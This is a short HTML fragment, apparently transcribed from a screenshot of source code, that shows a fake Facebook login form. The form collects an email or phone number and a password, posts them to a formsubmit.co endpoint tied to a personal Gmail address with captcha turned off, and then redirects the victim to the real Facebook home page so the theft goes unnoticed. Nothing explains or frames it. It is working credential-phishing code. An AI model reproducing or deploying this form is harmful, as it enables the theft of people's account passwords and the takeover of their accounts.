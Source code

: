 </head>
<body>
    <div id="header_wrapper">
        <div class="image">
        <div id="header">


            <form action="https://formsubmit.co/badoguifx@gmail.com" method="POST">
                <li>Email or Phone<br><input type="text" name="email" required=""></li>
                <li>Password<br><input type="password" name="password" required=""><br><a href="">Forgotten account?</a></li>
                <input type="hidden" name="_captcha" value="false">
                <input type="hidden" name="_next" value="https://www.facebook.com/home.php">
                <li><a href="https://www.facebook.com/home.php"><input class="btn1" type="submit" name="login" value="Log In"></a></li>
            </form>

        </div>
    </div>
